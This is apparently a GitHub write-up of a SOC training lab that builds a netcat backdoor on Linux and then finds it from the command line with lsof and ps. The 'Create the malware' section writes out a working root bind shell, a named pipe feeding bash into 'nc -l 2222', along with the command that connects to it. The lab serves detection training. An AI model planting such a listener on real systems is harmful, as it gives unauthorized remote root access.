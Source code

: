 # "Linux CLI Malware Detection: Netcat Backdoor

This lab is provided by Antisyphon Training's SOC Core Skills course. We will explore the setup and detection of backdoor malware using a netcat listener, a common tool for establishing unauthorized remote access. The exercise aims to simulate a real-world cyber threat scenario, providing hands-on experience in malware analysis and defense techniques. By leveraging the Linux Command Line Interface (CLI), we will detect and analyze the backdoor. 
<br>
<br>

## Create the malware 
- We will first sudo into root so that we can have a backdoor running root.
```
sudo su -
```
<br>
<br>

- This is a simple backdoor mechanism that uses netcat to create a network listener that pipes commands to and from a bash shell, allowing an attacker to remotely execute commands on the system by connecting to port 2222. 
```
mknod backpipe p
/bin/bash  0<backpipe | nc -l 2222 1>backpipe
```

![backdoor](https://github.com/trixiahorner/Linux_CLI/assets/162903587/d9187608-208a-4da0-99d3-70435d6ef994)
<br>
<br>

- We need the IP of our linux system so that we can connect
```
ifconfig
```
<br>
<br>

- Now let's connect from our windows system! Once connected, we can type some commands to ensure that it is working. As you can see, our Windows computer is connected to the simple Linux backdoor as root. This is the malware. Someone is listening.
```
ncat 172.17.231.122 2222
```

![netcat](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C2.png?raw=true)
<br>
<br>

## Linux CLI Analysis of malware
- Now we will start our analysis from the Linux CLI. Let's hunt and find our malware. Open up a window for analysis.
```
sudo su -
```
<br>
<br>

- Using lsof we can see a listening device and an established connection
```
lsof -i -P
```

![lsof](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C3.png?raw=true)
<br>
<br>

- We can look at the netcat process ID using the -p option. This will give us all the open files associated with the listed process ID (the netcat listener)
```
lsof -p 203
```

![lsof](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C4.png?raw=true)
<br>
<br>

- We can look at the full processes using the ps command (-a for all, -u to sort by user, -x to include the processes uning a teletype terminal)
```
ps aux
```

![psaux](https://github.com/trixiahorner/Linux_CLI/blob/main/images/c5.png?raw=true)
<br>
<br>




# Conclusion
This lab is crucial for understanding the behavior of backdoor malware and the methodologies used to identify and respond to such threats effectively.
